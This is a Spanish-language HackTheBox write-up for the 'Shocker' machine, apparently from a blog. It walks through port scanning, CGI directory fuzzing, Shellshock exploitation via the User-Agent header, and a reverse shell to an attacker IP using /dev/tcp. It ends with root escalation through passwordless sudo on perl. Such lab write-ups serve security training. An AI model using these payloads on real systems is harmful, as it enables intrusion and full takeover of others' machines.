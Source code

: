 ```yaml
---
title: Shocker Writeup - HackTheBox
date: 2024-08-15
categories: [WriteUps, HackTheBox]
tags: [Linux, Easy, HackTheBox]
img_path: /assets/img/htb/shocker/
image: /assets/img/htb/shocker/shocker.png
---
```


Explotamos una vulnerabilidad Shellshock en un script CGI expuesto en el servidor web, lo que nos permitió ejecutar comandos de forma remota y obtener una Reverse Shell. Luego, utilizamos permisos sudo sin contraseña en el binario `/usr/bin/perl` para escalar privilegios a root y tomar control total de la máquina.

## Reconocimiento
---
Realizamos un escaneo de puertos en la máquina objetivo utilizando `nmap` para identificar los servicios en ejecución.

```bash
nmap -p- --open -sS -Pn -n --min-rate 5000 -vvv 10.10.10.56 -oG allPorts
_______________________________________________________________________
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 63
2222/tcp open  EtherNetIP-1 syn-ack ttl 63
```
---
El resultado reporta dos puertos abiertos: **80 (HTTP)** y **2222 (SSH)**. A continuación, realizamos un escaneo más detallado para identificar versiones y posibles vulnerabilidades en los servicios.

```bash
nmap -sCV -p80,2222 10.10.10.56 -oN targeted
_______________________________________________________________________
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeración
---
Accedemos al sitio web en `http://10.10.10.56` y observamos una imagen con el mensaje "Don't bug me". No hay otros enlaces ni información adicional visible.

![shocker-1](/assets/img/htb/shocker/shocker-1.png)

---
Dado que el sitio no ofrece contenido visible, recurrimos al fuzzing de directorios utilizando `wfuzz` para encontrar rutas ocultas que podrían contener contenido interesante.

```bash
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
_______________________________________________________________________
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================
000000035:   403        11 L     32 W       294 Ch      "cgi-bin" 
```
---
El resultado revela un directorio llamado `cgi-bin`, lo que indica que el servidor podría estar utilizando scripts CGI para generar contenido dinámico. Accedemos al directorio `cgi-bin`, pero nos encontramos con un error **403 Forbidden**, lo que sugiere que el acceso directo está restringido.

![shocker-2](/assets/img/htb/shocker/shocker-2.png)

---
Dado que **cgi-bin** suele contener scripts CGI que generan contenido dinámico, realizamos un fuzzing adicional en este directorio, buscando archivos con extensiones comunes.

```bash
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
_______________________________________________________________________
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================
000000373:   200        7 L      18 W       119 Ch      "user - sh" 
```
---
Este fuzzing revela un archivo llamado `user.sh`. Probamos el contenido del script `user.sh` con `curl` y observamos que es un script dinámico que muestra información de uptime.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"
Content-Type: text/plain
Just an uptime test script
 10:51:57 up  1:36,  0 users,  load average: 0.00, 0.00, 0.00
_______________________________________________________________________
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"
Content-Type: text/plain
Just an uptime test script
 10:52:03 up  1:36,  0 users,  load average: 0.00, 0.00, 0.00
```
## Explotación
---
Al tratarse de un script CGI en un servidor vulnerable, surge la posibilidad de que este sistema sea vulnerable a Shellshock, una vulnerabilidad crítica en Bash que permite la ejecución remota de comandos. Realizamos una búsqueda sobre la explotación manual de Shellshock y encontramos esta [Guía de vulnerabilidad](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock).

![shocker-3](/assets/img/htb/shocker/shocker-3.png)

---
Para confirmar la vulnerabilidad, ejecutamos un script de `nmap` diseñado para detectar Shellshock. Podemos verificar si el servidor es vulnerable utilizando el script NSE `http-shellshock` de `nmap`.

```bash
nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56
_______________________________________________________________________
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
```
---
Confirmamos que el servidor es vulnerable, por lo que procedemos a realizar un ataque de prueba utilizando `curl`. Procedemos a explotar la vulnerabilidad inyectando un comando para verificar si podemos ejecutar código arbitrario en el servidor.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H 'User-Agent: () { :; }; echo ; echo ; /usr/bin/id'
_______________________________________________________________________
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
---
La respuesta muestra que el comando se ejecutó con éxito, devolviendo la información del usuario `shelly`. Para obtener una shell interactiva, configuramos un listener en nuestra máquina atacante en el puerto 443 con `netcat`.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```
---
Luego, enviamos una reverse shell utilizando la vulnerabilidad Shellshock.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.9/443 0>&1'
```
---
Conseguimos acceso a la máquina como el usuario `shelly`, el mismo que vimos antes.

```bash
nc -lvnp 443
listening on [any] 443 ...
_______________________________________________________________________
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.56] 50954
shelly@Shocker:/usr/lib/cgi-bin$ 
```
---
Realizamos un tratamiento de la TTY para poder trabajar cómodamente en la consola.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 25 columns 127
```
## Escalada de Privilegios
---
Con el acceso obtenido, leemos la flag de `user.txt`.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
_______________________________________________________________________
2bc1e008c552ce******************
```
---
Para escalar privilegios a `root`, listamos los comandos que el usuario `shelly` puede ejecutar con privilegios elevados.

```bash
shelly@Shocker:~$ sudo -l
_______________________________________________________________________
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
---
Podemos ejecutar el binario `/usr/bin/perl` como root sin necesidad de proporcionar contraseña. Consultando [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo), encontramos una forma de obtener una shell como root.

```bash
shelly@Shocker:~$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
_______________________________________________________________________
root@Shocker:/# 
```
---
Finalmente, como `root`, accedemos a la flag de `root.txt`.

```bash
root@Shocker:/# cat root/root.txt
_______________________________________________________________________
88d58e9e0c360b******************
```